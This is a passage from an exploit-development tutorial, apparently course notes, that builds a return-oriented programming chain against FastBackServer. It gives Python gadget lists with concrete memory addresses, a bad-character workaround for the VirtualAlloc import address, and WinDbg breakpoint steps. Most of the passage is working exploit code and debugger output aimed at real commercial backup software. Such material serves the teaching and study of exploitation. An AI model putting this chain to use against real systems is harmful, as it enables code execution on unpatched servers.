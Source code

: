 
The second instruction pops the dummy value (0x42424242) into ESI, and when we reach the RET instruction, we are ready to execute the next ROP gadget.

At this point, EAX contains the original address from ESP. Next, we have to pop the -0x1C value into ECX and add it to EAX.

We can use a "POP ECX" instruction to get the negative value into ECX, followed by a gadget containing an "ADD EAX, ECX" instruction. This will allow us to add -0x1C to EAX
	rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
	rop += pack("<L", (0x42424242)) # junk
	rop += pack("<L", (0x505115a3)) # pop ecx ; ret
	rop += pack("<L", (0xffffffe4)) # -0x1C
	rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
	rop += b"C" * (0x400 - 276 - 4 - len(rop))

The three lines added in the listing above should accomplish this. Before we execute, we set a breakpoint on address 0x505115a3, directly on the POP ECX gadget.
	bp 0x505115a3
	g
	p
	p
	p
	dd eax L1


With the correct value in EAX, we need to move that value back to ESI so we can use it in the next stages. We can do this with a gadget containing "PUSH EAX" and "POP ESI" instructions
rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe4)) # -0x1C
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))

Once again, we can relaunch FastBackServer and WinDbg and set a breakpoint on the new gadget at 0x50537d5b.
	bp 0x50537d5b
	g
	p
	p
	dd esi L1
	


We previously found that the IAT address for VirtualAlloc is 0x5054A220, but we know 0x20 is a bad character for our exploit. To solve this, we can increase its address by one and then use a couple of gadgets to decrease it to the original value.

First, we use a POP EAX instruction to fetch the modified IAT address into EAX. Then we'll pop -0x00000001 (or its equivalent, 0xFFFFFFFF) into ECX through a POP ECX instruction. Next, we can reuse the ADD EAX, ECX instruction from the previous gadget to restore the IAT address value.

Finally, we can use a dereference to move the address of VirtualAlloc into EAX through a MOV EAX, DWORD [EAX] instruction. We can see observe gadgets added to the updated ROP chain
rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe4)) # -0x1C
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0x5054A221)) # VirtualAlloc IAT + 1
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffff)) # -1 into ecx
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051f278)) # mov eax, dword [eax] ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))